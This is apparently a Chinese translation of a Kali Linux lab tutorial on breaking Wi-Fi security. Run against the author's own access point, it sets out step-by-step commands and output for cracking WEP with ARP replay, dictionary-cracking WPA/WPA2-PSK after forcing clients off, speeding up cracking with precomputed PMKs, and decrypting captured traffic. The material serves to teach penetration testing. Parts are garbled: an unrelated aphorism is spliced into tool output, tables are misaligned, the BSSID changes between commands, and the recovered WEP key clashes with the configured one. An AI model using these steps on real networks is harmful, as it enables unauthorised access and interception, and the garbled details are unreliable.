
- 2. 在我的接入点上，可以通过将**安全模式**设置为**WEP**来完成配置。我们还需要设置WEP密钥长度。如下方截图所示，我已将WEP设置为使用**128位**密钥。我将默认密钥设为**WEP密钥1**，十六进制值设为`abcdefabcdefabcdefabcdef12`作为128位WEP密钥，你可以根据需求自行修改：

- 3. 设置应用完成后，接入点现在就会将WEP作为首选加密机制。接下来我们配置攻击者主机。
- 4. 执行以下命令启用wlan0网卡：
```ifconfig wlan0 up```
- 5. 然后执行以下命令：
```airmon-ng start wlan0```
- 6. 这一步是为了创建**mon0**（监听模式接口），如下方截图所示。使用`iwconfig`命令验证mon0接口已成功创建：

- 7. 执行以下命令运行airodump-ng，定位我们的实验室接入点：
```airodump-ng mon0```
- 8. 如下方截图所示，我们能够看到正在运行WEP的Wireless Lab接入点：

- 9. 本次实验中我们仅关注Wireless Lab，因此执行以下命令仅查看该网络的数据包：
```airodump-ng --bssid 00:21:91:D2:8E:25 --channel 11 --write WEPCrackingDemo mon0```

```root@kali:~# airodump-ng --bssid E8:94:F6:62:1E:8E --channel 11 --write WEPCrackingDemo mon0```
- 10. 我们将通过`--write`指令，让airodump-ng将数据包保存为pcap文件：

| BSSID | 信号强度 接收质量 信标 | 数据包数, 每秒数据包数 | 频道 | 速率 | 加密方式 | 加密算法 | 认证方式 | ESSID |
|-------------------|-----------------|------------|----|-----|------|--------|------|----------------|
| E8:94:F6:62:1E:8E | -44 100 | 125 | 40 | 1 | 11 | 54e | WEP | WEP | Wireless Lab |
| BSSID | 站点 | 信号强度 | 速率 | 丢包 | 帧数 | 探测 |
|-------------------|-------------------|-----|------|-----|--------|--------|
| E8:94:F6:62:1E:8E | 20:18:7A:45:36:61 | -77 | 54e-54e | 0 | 26 | |
- 11. 现在让我们将无线客户端连接到接入点，使用WEP密钥`abcdefabcdefabcdefabcdef12`。客户端成功连接后，airodump-ng会在屏幕上显示其状态。在破解WEP时，我们需要大量用同一密钥加密的数据包来利用协议漏洞，因此我们必须迫使网络产生更多数据包。为此，我们将使用**aireplay-ng**工具。
- 12. 我们将使用**aireplay-ng**捕获无线网络中的ARP数据包，并将其注入回网络以模拟ARP响应。如下方下一步截图所示，我们将在单独的窗口中启动aireplay-ng。将这些数据包重放数千次后，我们就能在网络上生成大量数据流量。尽管aireplay-ng不知道WEP密钥，但它可以通过数据包的大小识别ARP数据包。ARP是固定头部协议，因此ARP数据包的大小很容易确定，即使在加密流量中也能用于识别它们。接下来我们将讨论运行aireplay-ng时使用的参数：`-3`选项用于ARP重放，`-b`指定我们网络的BSSID，`-h`指定我们要伪装的客户端MAC地址。我们必须执行这一步，因为重放攻击仅对已认证且关联的客户端MAC地址有效：

- 13. 很快你就会看到aireplay-ng成功嗅探到ARP数据包，并开始将其重放回网络。如果你遇到像我一样的信道相关错误，请在命令末尾追加*--ignore-negative-one*，如下方截图所示：

- 14. 此时，airodump-ng也会开始记录大量数据包。所有嗅探到的数据包都将存储在WEPCrackingDemo文件中。
| BSSID | 信号强度 | 接收质量 | 信标 | 数据包数 | 每秒数据包数 | 频道 | 速率 | 加密方式 | 加密算法 | 认证方式 | ESSID |
|-------------------|-----|-----|---------|-------|-----|----|----|------|--------|------|----------------|
| E8:94:F6:62:1E:8E | -49 | 100 | 3360 | 3090 | 10 | 11 | 54e | WEP | WEP | | Wireless Lab |
| BSSID | 站点 | 信号强度 | 速率 | 丢包 | 帧数 | 探测 |
|-------------------|-------------------|-----|------|-----|--------|--------|
| E8:94:F6:62:1E:8E | 20:10:7A:45:36:61 | -79 | 54e-54e | 0 | 3091 | |
- 15. 现在开始实际的破解环节！我们在新窗口中启动aircrack-ng，加载`WEPCrackingDemo.cap`文件。这将启动aircrack-ng软件，开始利用文件中的数据包破解WEP密钥。请注意，最佳实践是同时运行airodump-ng收集WEP数据包、aireplay-ng执行重放攻击、aircrack-ng基于捕获的数据包尝试破解WEP密钥，本次实验中这三个工具均在独立窗口中运行。
- 16. 当aircrack-ng处理数据包以破解WEP密钥时，你的屏幕应如下方截图所示：

| KB | 深度 | 字节（投票数） |
|----|-------|------------|
| 0 | 0/17 | 12(6656) 49(6656) 13(6400) 1C(6400) 84(6400) BA(6400) |
| 1 | 0/1 | 14(7424) A2(6400) C3(6400) F3(6400) AC(6144) E3(6144) |
| 2 | 0/1 | C0(7680) 22(6656) 41(6656) 50(6656) B2(6656) EF(6656) |
| 3 | 1/2 | 5F(6912) 17(6656) EC(6656) 7F(6400) 92(6400) B3(6400) |
| 4 | 3/4 | F0(6912) A8(6400) DF(6400) 41(6144) 5E(6144) 8D(6144) |
- 17. 破解密钥所需的数据包数量是不确定的，但通常需要数十万个甚至更多。在高速网络（或使用aireplay-ng）的情况下，最多只需要5-10分钟。如果当前文件中的数据包数量不足，**aircrack-ng**会暂停，如下方截图所示，等待捕获更多数据包，随后会重启破解过程：
| KB | 深度 | 字节（投票数） |
|----|-------|------------|
| 0 | 37/38 | F3(5120) 47(4864) 69(4864) 78(4864) 84(4864) 99(4864) |
| 1 | 12/1 | F3(5632) 32(5376) 3B(5376) 47(5376) 48(5376) 74(5376) |
| 2 | 1/7 | B2(6400) 41(6144) 58(6144) 5A(6144) EF(6144) FE(6144) |
| 3 | 9/19 | F2(5888) 0D(5632) 17(5632) 32(5632) 47(5632) 80(5632) |
| 4 | 16/4 | E5(5632) 0E(5376) 1F(5376) 6E(5376) 83(5376) 9E(5376) |
破解失败。下一次尝试将使用5000个IV。
| KB | 深度 | 字节（投票数） |
|----|-------|------------|
| 0 | 5/11 | D8(56832) 65(56576) A9(56576) D0(56576) FC(56576) 06(56320) |
| 1 | 8/1 | 3B(56320) 05(55808) FF(55808) 5B(55296) 61(55296) 6B(55296) |
| 2 | 3/2 | D5(57344) 21(56832) 5A(56832) A0(56576) 91(56320) 17(55808) |
| 3 | 1/5 | E3(60160) EA(58624) F0(58112) 5E(57600) 44(57344) D5(56832) |
| 4 | 0/1 | DF(72960) AA(60416) DC(59136) 4A(57600) 54(56832) 6B(56576) |
密钥已找到！[ AB:CD:EF:AB:CD:EF:AB:CD:EF:12 ] 解密成功：100%
- 18. 一旦捕获并处理了足够的数据包，**aircrack-ng**就能成功破解密钥。破解成功后，它会在终端中自豪地显示密钥并退出，如下方截图所示：


19. 需要注意的是，WEP 协议存在严重缺陷，任何 WEP 密钥（无论复杂度多高）都可以被 Aircrack-ng 破解。唯一的要求是有足够多的、使用该密钥加密的数据包提供给 aircrack-ng 即可。
> 我们在实验室中搭建了 WEP 网络，并成功破解了 WEP 密钥。完成这一操作时，我们首先等待了网络中的合法客户端连接到接入点。之后，我们使用 aireplay-ng 工具向网络重放 ARP 数据包，这促使网络发送 ARP 重放数据包，从而大幅增加了空口中传输的数据包数量。随后我们使用 aircrack-ng 工具，通过分析这些数据包中的加密漏洞破解了 WEP 密钥。
> 需要注意的是，我们还可以使用上一章学到的共享密钥认证绕过技术，伪造对接入点的认证。如果合法客户端离开网络，这个技巧会非常实用。这能确保我们可以伪造认证与关联流程，持续向网络发送重放的数据包。在之前的练习中，如果合法客户端突然退出网络，我们将无法重放数据包，因为接入点会拒绝接受来自未关联客户端的数据包。你的挑战是在进行 WEP 破解的同时，使用上一章学到的共享密钥认证绕过技术伪造认证与关联。将合法客户端从网络中注销，验证你仍然能够向网络注入数据包，以及接入点是否会接受并响应这些数据包。
## WPA 与 WPA2
WPA 主要使用 TKIP 加密算法。TKIP 旨在改进 WEP，且无需完全更换硬件即可运行。相比之下，WPA2 强制使用 AES-CCMP 算法进行加密，其安全强度和稳定性远高于 TKIP。WPA 和 WPA2 均支持两种认证方式：一种是通过 RADIUS 服务器实现的基于 EAP 的认证（企业级），另一种是基于**预共享密钥（PSK）**的认证（个人级）。
WPA/WPA2 PSK 容易受到字典攻击。这类攻击所需的输入包括客户端与接入点之间的四次 WPA 握手数据，以及包含常见口令的词表。之后，我们可以使用**Aircrack-ng**等工具尝试破解 WPA/WPA2 PSK 口令。四次握手的示意图如下所示：

WPA/WPA2 PSK 的工作原理是：它使用预共享密钥和其他五个参数（网络 SSID、**认证方随机数（ANonce）**、**请求方随机数（SNonce）**、认证方 MAC 地址（接入点 MAC）、**请求方 MAC 地址（Wi-Fi 客户端 MAC）**）派生出每会话密钥，即**成对瞬态密钥（PTK）**，该密钥用于加密接入点与客户端之间的所有数据。
通过监听空口嗅探整个通信过程的攻击者可以获得上一段提到的全部五个参数，唯一无法获取的是预共享密钥。那么预共享密钥是如何生成的呢？它由用户提供的 WPA-PSK 口令和 SSID 共同派生而来，这两者的组合会经过**基于密码的密钥派生函数（PBKDF2）**处理，最终输出 256 位的共享密钥。
在典型的 WPA/WPA2 PSK 字典攻击中，攻击者会使用包含大量可能口令的字典配合攻击工具。工具会从字典中的每个口令派生出 256 位的预共享密钥，再将其与前文提到的其他参数结合生成 PTK。PTK 将用于验证握手数据包中的**消息完整性校验（MIC）**，如果校验匹配，说明字典中猜测的口令是正确的；反之则错误。最终，如果授权网络的密码存在于字典中，就会被识别出来。这正是 WPA/WPA2 PSK 的破解原理！下图展示了相关步骤：

接下来我们将了解如何破解 WPA PSK 无线网络，使用 CCMP（AES）的 WPA2-PSK 网络的破解步骤完全相同。
## 破解 WPA-PSK 与 WPA2-PSK 口令
按照以下说明开始操作：
- 1. 首先连接到我们的接入点「Wireless Lab」，并将接入点设置为使用 WPA-PSK 认证。我们将 WPA-PSK 口令设置为 "abcdefgh"，使其易受字典攻击：

- 2. 使用以下命令启动 airodump-ng，使其开始捕获并存储我们网络的所有数据包：
``` airodump-ng --bssid 00:21:91:D2:8E:25 --channel 11 --write WPACrackingDemo mon0 ```

- 3. 现在可以等待新客户端连接到接入点以捕获四次 WPA 握手数据，也可以发送广播解除认证数据包强制客户端重新连接。我们选择后一种方式以加快进程。遇到未知信道错误时也会出现同样的情况，此时再次使用 --ignore-negative-one 参数即可，这可能需要进行多次尝试：

- 4. 一旦捕获到 WPA 握手数据，airodump-ng 工具会在屏幕右上角显示「WPA handshake」字样以及对应的接入点 BSSID。如果使用了 --ignore-negative-one 参数，工具可能会用固定信道消息替换 WPA 握手提示，只需留意是否有 WPA 握手的快速闪现即可。
- 5. 现在可以停止 airodump-ng 工具了。在 Wireshark 中打开生成的 cap 文件，查看四次握手数据。你的 Wireshark 终端界面应如下图所示，截图中我已选中跟踪文件里四次握手的第一个数据包，握手数据包的协议为 EAPOL：

- 6. 现在开始实际的密钥破解练习！我们需要一个常用单词组成的字典。Kali 系统在**metasploit**文件夹中自带了许多字典文件，位置如下图所示。需要注意的是，在 WPA 破解中，字典的质量直接决定了破解效果。Kali 自带了一些字典，但可能不足以满足需求。用户设置的密码受诸多因素影响，包括用户所在国家/地区、当地常见的姓名和短语、用户的安全意识等大量其他因素。在开展渗透测试时，汇总针对特定国家和地区的词表是个不错的选择：
``` root@kali: ~/WEPCrack# ls /usr/share/wordlists/metasploit
av-update-urls.txt
oracle_default_hashes.txt
burnett_top_1024.txt
oracle_default_passwords.csv
burnett_top_500.txt
oracle_default_userpass.txt
cms400net_default_userpass.txt
postgres_default_pass.txt
db2_default_pass.txt
postgres_default_userpass.txt
db2_default_userpass.txt
postgres_default_user.txt
db2_default_user.txt
root_userpass.txt
default_pass_for_services_unhash.txt
rpc_names.txt
default_userpass_for_services_unhash.txt
rservices_from_users.txt
default_users_for_services_unhash.txt
sap_common.txt
dlink_telnet_backdoor_userpass.txt
sap_default.txt
hci_oracle_passwords.csv
sap_icm_paths.txt
http_default_pass.txt
sensitive_files.txt
http_default_userpass.txt
sensitive_files_win.txt
http_default_users.txt
sid.txt
http_owa_common.txt
snmp_default_pass.txt
idrac_default_pass.txt
tftp.txt
idrac_default_user.txt
tomcat_mgr_default_pass.txt
ipmi_passwords.txt
tomcat_mgr_default_userpass.txt
ipmi_users.txt
tomcat_mgr_default_users.txt
joomla.txt
unix_passwords.txt
malicious_urls.txt
unix_users.txt
multi_vendor_cctv_dvr_pass.txt
vnc_passwords.txt
multi_vendor_cctv_dvr_users.txt
vxworks_collide_20.txt
namelist.txt
vxworks_common_20.txt
```
- 7. 现在以 pcap 文件为输入、指定字典文件路径来调用 aircrack-ng 工具，如下图所示，终端中我使用的是 nmap.lst 字典：
``` root@kali:~# aircrack-ng WPACrackingDemo-03.cap -w /usr/share/wordlists/nmap.lst ```
- 8. aircrack-ng 会使用字典文件尝试各种口令组合来破解密钥。如果口令存在于字典文件中，最终会成功破解，你的屏幕会与截图中展示的类似：

root@kali: ~/WEPCrack Aircrack-ng 1.2 beta3 [00:00:00] 648 keys tested (1091.54 k/s) KEY FOUND! [ abcdefgh ] Master Key : D6 C1 F1 E5 BD F5 E8 1A A4 A2 B8 32 F4 08 99 BD 71 5B D6 F3 F1 1A CD 7E 9A B3 7E 36 48 06 8B 01 Transient Key : ED 45 1C 51 B8 E4 A5 22 F2 30 73 31 6A AF 6F 2D 65 FD 8B 58 5F C1 2C 9E 1D 9A 34 30 96 B7 34 87 E9 89 24 CF 08 B7 B7 17 22 A9 AD 24 47 94 8F 50 E3 31 8A 8A 45 02 B7 C1 D0 0D 48 EE 3A E8 CD E4 EAPOL HMAC : F9 6A 31 80 29 77 EC 36 9E 28 72 08 53 61 04 55 root@kali:~# 你越是安静，就越能听清万物。
| 操作说明 | 具体内容 |
| --- | --- |
| 我们在接入点上配置WPA-PSK，使用通用密码： | abcdefgh。随后我们使用反认证攻击让合法客户端重新连接到接入点，当客户端重连时，我们捕获接入点和客户端之间的四次WPA握手包。|
- 9. 请注意，由于这是字典攻击，前提是提供给aircrack-ng的字典文件中必须包含要破解的密码短语。如果密码短语不在字典中，攻击将会失败！
我们使用通用密码abcdefgh在接入点上配置了WPA-PSK，随后使用反认证攻击让合法客户端重新连接到接入点，重连过程中捕获了接入点与客户端之间的四次WPA握手包。
由于WPA-PSK易受字典攻击，我们将包含WPA四次握手包的捕获文件和通用密码短语列表（词表形式）提供给Aircrack-ng。由于密码短语abcdefgh存在于词表中，Aircrack-ng成功破解了WPA-PSK共享密码。需要再次强调的是，在基于字典的WPA破解中，你所能达到的效果完全取决于你所拥有的字典质量。因此，在开始破解前，编制一个大型、详尽的字典非常重要。尽管Kali Linux自带字典，但有时可能不够充分，尤其考虑到本地化因素时，可能需要添加更多词汇。
## 加快WPA和WPA2破解速度
正如上一节所学，如果我们的字典中包含正确的密码短语，破解WPA-Personal每次都能成功。那么我们为什么不创建一个包含数百万用户常用密码和短语的大型详尽字典呢？这会对我们有很大帮助，大多数时候我们都能成功破解密码短语。这听起来很棒，但我们忽略了一个关键因素——耗时。其中较为消耗CPU和时间的过程是通过PBKDF2使用PSK密码短语和SSID计算预共享密钥（PSK）。该函数会将两者的组合哈希4096次，最终输出256位预共享密钥。下一步破解过程会将该密钥与四次握手包中的参数结合，验证握手包中的MIC。这一步的计算成本很低。此外，握手包中的参数每次都会变化，因此这一步无法预计算。因此，为了加快破解速度，我们需要尽可能快地完成从密码短语到预共享密钥的计算。
### 加快破解速度的方法
- 1. 我们可以使用genpmk工具，针对给定的SSID和词表预计算PMK，命令如下：
``` genpmk –f <选择的词表> –d PMK-Wireless-Lab –s "Wireless Lab" ```
该命令会生成包含预计算PMK的PMK-Wireless-Lab文件：

- 2. 现在我们创建一个WPA-PSK网络，密码短语为**abcdefgh**（存在于我们使用的字典中），并捕获该网络的WPA握手包。接下来我们使用**Cowpatty**破解WPA密码，如下图所示：

使用预计算的PMK，Cowpatty大约需要7.18秒即可破解密钥。
- 3. 现在我们使用**aircrack-ng**和相同的字典文件，破解过程耗时超过22分钟。这显示了预计算带来的巨大性能提升。
- 4. 为了在aircrack-ng中使用这些PMK，我们需要使用名为airolib-ng的工具。我们将使用以下选项：airolib-ng、PMK-Aircrack-import和cowpatty PMK-Wireless-Lab，其中PMK-Aircrack是要创建的与aircrack-ng兼容的数据库，PMK-Wireless-Lab是之前使用genpmk创建的符合genpmk规范的PMK数据库。
- 5. 现在我们将该数据库提供给aircrack-ng，破解速度会显著提升。我们使用以下命令：
``` aircrack-ng –r PMK-Aircrack WPA Cracking Demo2-01.cap ```
- 6. Kali Linux上还有其他工具可以利用多CPU系统加速破解，例如Pyrit。对于Intel® Core™ i7等处理器，可以完成更快的破解操作。我们使用`-r`选项指定pcap文件，使用`-i`选项指定符合genpmk规范的PMK文件。即使在使用之前工具的同一系统上，使用genpmk生成的相同PMK文件，Pyrit也能在约3秒内破解密钥。
> 除上述因素外，破解过程主要取决于WPA/WPA2预共享密钥的长度。较长的密码短语需要更长的时间来破解。
我们研究了多种加速WPA/WPA2-PSK破解的工具和技术。核心思想是针对给定的SSID和我们字典中的密码短语列表，预计算PMK。
## 解密WEP、WPA和WPA2数据包
到目前为止，我们已使用各种技术破解了WEP和WPA密钥。我们要如何利用这些信息？第一步是使用这些密钥解密我们捕获的数据包。我们将使用破解得到的密钥，解密同一份空中捕获的跟踪文件中的WEP和WPA数据包。我们可以按照以下步骤操作：
- 1. 我们将解密之前创建的WEP捕获文件WEPCrackingDemo-01.cap中的数据包。为此，我们将使用Aircrack-ng套件中的另一个工具airdecap-ng。我们将运行以下命令，使用之前破解的WEP密钥，如下图所示：
``` airdecap-ng -w abcdefabcdefabcdefabcdef12 WEPCrackingDemo-02.cap ```

